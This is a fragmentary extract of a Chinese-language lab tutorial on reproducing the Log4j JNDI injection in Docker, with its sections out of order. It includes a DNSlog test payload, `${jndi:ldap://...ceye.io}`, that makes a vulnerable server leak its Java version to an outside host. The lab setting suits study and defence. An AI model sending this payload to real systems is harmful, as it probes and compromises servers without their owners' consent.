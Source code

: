 成功！

清除环境：`docker-compose down`

![](assets/a0e69836d3876679e61e7091aa92a14b.png)

05

**注 意 事 项**

中转机的java版本：`1.8.0_172`

![](assets/046458cd0f64a06c9d84272e43127b27.png)

java

shell

网络安全

安全

腾讯云开发者社区



# 一、实操：



## 0x01 DNSlog测试



发包

`${jndi:ldap://${sys:java.version}.gg.v72pck.ceye.io}`,获取java版本信息
